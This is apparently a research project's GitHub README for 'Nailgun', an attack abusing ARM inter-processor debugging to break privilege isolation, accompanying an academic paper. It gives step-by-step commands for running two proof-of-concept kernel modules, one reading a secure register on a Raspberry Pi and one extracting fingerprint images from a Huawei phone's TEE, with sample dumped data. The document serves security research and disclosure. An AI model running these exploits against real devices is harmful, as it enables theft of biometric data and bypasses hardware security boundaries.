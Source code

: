 
# Nailgun: Break the privilege isolation in ARM devices

## Overview
Processors nowadays are consistently equipped with debugging features to facilitate the program debugging and analysis. Specifically, the ARM debugging architecture involves a series of CoreSight components and debug registers to aid the system debugging, but the security of the debugging features is under-examined since it normally requires physical access to use these features in the traditional debugging model.

The idea of Nailgun Attack is to misuse the debugging architecture with the inter-processor debugging model. In the inter-processor debugging model, a processor (debug host) is able to pause and debug another processor (debug target) on the same chip even when the debug target owns a higher privilege. With Nailgun, we are able to obtain sensitive information and achieve arbitrary payload execution in a high-privilege mode.

For more details, please check our website http://compass.cs.wayne.edu/nailgun

## Proof of Concept
We will make two PoCs available on Github:

### PoC #1: Reading  Secure Configuration Register with a kernel module.
#### Platform
- Deivce: Raspberry PI 3 Model B+ 
- Firmware: Raspbian GNU/Linux 9.6 (stretch)

#### Description
In this PoC, we we use a kernel module running in non-secure EL1 to read Secure Configuration Register (SCR), which is only accessiable in secure state, on Raspberry PI. The fold ```PoC/Read_SCR``` contains the source code and prebuild binaries for two kernel modules. The first kernel module _directly_read.ko_ read the SCR directly, which lead to segmentation fault. The kernel module _nailgun.ko_ leverages Nailgun attack to read the SCR

#### Prepare
If you are going to build the kernel module from the source code, you need to install the compile tools and kernel headers with the following command,
```
pi@raspberrypi:~/ $ sudo apt-get install build-essential raspberrypi-kernel-headers
```
Then, get into the source code fold, and compile the kernel module
```
pi@raspberrypi:~/ $ cd PoC/Read_SCR
pi@raspberrypi:~/PoC/Read_SCR $ make
```

#### Run
Use _insmod_ command to install the corresponding kernel module, and use _dmesg_ to check the kernel logs.
```
pi@raspberrypi:~/PoC/Read_SCR $ sudo insmod directly_read.ko
pi@raspberrypi:~/PoC/Read_SCR $ dmesg
pi@raspberrypi:~/PoC/Read_SCR $ sudo insmod nailgun.ko
pi@raspberrypi:~/PoC/Read_SCR $ dmesg
```
The value of the SCR can be found in the kernel log.

#### Demo Video
https://youtu.be/vz2JQ_9Tb70
  
### PoC #2:  Extracting the fingerprint image.
#### Platform
- Deivce: Huawei Mate 7 (MT-L09)
- Firmware: MT7-L09V100R001C00B121SP05

#### Description
In this PoC, we use a kernel module running in non-secure EL1 to extract the fingerprint image
stored in TEE on Huawei Mate 7. The fold ```PoC/Fingerprint_Extraction``` contains the source code for the kernel module that extracts fingerprint data from TEE, a prebuild binary of the kernel module, and a python script to convert the extracted image data to a PNG file.

#### Prepare
- Make sure you have scanned a fingerprint with the fingerprint sensor.
- Enable USB debugging on your phone and connect it to your PC. (**Nailgun attack doesn't require physical access to the phone, the connection is only used for transferring the binary to the phone and moving the output log to the PC.**)
- Make sure you have root access on your phone.

#### Run
Firstly, push the prebuild binary into the phone
```
adb push nailgun.ko /sdcard/
```
Next, in the _adb shell_ console of the phone, install the kernel module
```
adb shell
shell@hwmt7:/ $ su
root@hwmt7:/ # insmod /sdcard/nailgun.ko
```
Check the kernel log with _dmesg_ command
```
root@hwmt7:/ # dmesg
```
If you can find the fingerprint data similar to this
```
<6>[   51.284149] [0.1, swapper/1] --------------------
<6>[   51.284210] [0.1, swapper/1] 2ef5efac: 412f0100 87796552 e8e2dfd4 eff0eeea
<6>[   51.284240] [0.1, swapper/1] 2ef5efbc: f3f3f3f3 f3f1f8f6 f3f3f2f1 eff4f4f8
<6>[   51.284301] [0.1, swapper/1] 2ef5efcc: f1f0f2f0 f1f0eff3 f1f1efee efeff0ee
<6>[   51.284332] [0.1, swapper/1] 2ef5efdc: e7ecefeb e8e9e8ed e6e4e3e6 e1e5e5e6
<6>[   51.284393] [0.1, swapper/1] 2ef5efec: e9e5e6e4 dfe3e3e6 e4e5e5e2 e0e3e3e3
<6>[   51.284423] [0.1, swapper/1] 2ef5effc: dee1e3e2 e8e6e1df eae8e6e7 eaeceeeb
<6>[   51.284484] [0.1, swapper/1] 2ef5f00c: e5e3e5e5 edebe6e7 edefeff1 f1eeeff0
<6>[   51.284515] [0.1, swapper/1] 2ef5f01c: e7eaebea e9e9e8e5 e6e7eaeb e4e5e4e2
<6>[   51.284576] [0.1, swapper/1] 2ef5f02c: e7e9e8e8 e5e6e7e6 e7eae7ea e2e4e4e5
```
then the PoC works.
Next, dump the kernel log to file, and extract the file from the phone to your PC
```
root@hwmt7:/ # dmesg > /sdcard/nailgun.log
root@hwmt7:/ # exit
shell@hwmt7:/ $ exit
adb pull /sdcard/nailgun.log .
```
Finally, use the python script to convert the fingerprint data to a PNG file
```
python log2image.py nailgun.log
```
You will find a file named _fingerprint.png_ with the extracted fingerprint image.

## Publication
```
@InProceedings{nailgun19,
	Title = {Understanding the security of ARM debugging features},
	Author = {Zhenyu Ning and Fengwei Zhang},
	Booktitle = {Proceedings of the 40th IEEE Symposium on Security and Privacy (S&P'19)},
	Year = {2019}
}
```

## Contact
- Zhenyu Ning
- zhenyu.ning _at_ wayne.edu
- Compass Lab, Wayne State University (http://compass.cs.wayne.edu)
